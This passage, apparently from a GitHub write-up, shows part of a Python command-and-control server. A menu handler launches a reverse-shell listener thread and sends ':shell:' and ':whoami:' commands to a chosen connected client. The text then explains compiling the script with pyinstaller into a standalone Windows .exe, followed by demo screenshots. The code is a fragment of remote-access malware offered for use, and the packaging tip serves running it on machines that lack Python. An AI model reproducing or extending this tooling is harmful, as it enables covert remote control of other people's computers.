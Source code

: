 ```python
            #subprocess.call(["python", "testsocketserver.py"])
            exit_event.clear()
            
            handler_thread = threading.Thread(target=startrevshellsvr)
            handler_thread.daemon = True
            handler_thread.start()
            
            print("[+] starting shell in 2 seconds!")
            time.sleep(2)
            
            clientlist[selection][1].send(b":shell:\n")
            
            #handler_thread2 = threading.Thread(target=startrevshellcli)
            #handler_thread2.daemon = True
            #handler_thread2.start()
            while not exit_event.is_set():
                time.sleep(1)
            return
        if choice == "6":
            clientlist[selection][1].send(b":whoami:\n")
            whoami=clientlist[selection][1].recv(1024)
            whoami = whoami.decode('UTF-8')
            print("You are: ", whoami)
            time.sleep(2)

        if choice == "15":
            return
```

You may be thinking to yourself,"But...how can I get this to execute on a windows machine that isn't running python?"  It's a fair question!  I'm sure some folks will knock `pyinstaller`, but it does the job just fine.

> **pyinstaller --onefile --icon=icon.ico your_script.py**

Now you have an .exe that can be used without the need to have python installed.

***DEMO TIME!!! ⏲️***
-

![image](https://github.com/user-attachments/assets/25c9f790-3fd2-4acf-a973-776bda7996e7)

![image](https://github.com/user-attachments/assets/271bf841-b2ff-4b48-8190-b278a162d510)

![image](https://github.com/user-attachments/assets/7639c05e-2903-4ffb-8ea1-2a4bc0b7db6a)

![image](https://github.com/user-attachments/assets/adfd33fd-0874-4c42-91cb-c073709ab541)

![image](https://github.com/user-attachments/assets/987c1706-308e-4fe3-9564-aea4483e9090)

![image](https://github.com/user-attachments/assets/1abdb9a0-9ae9-4212-bb0c-2af8cddb5229)
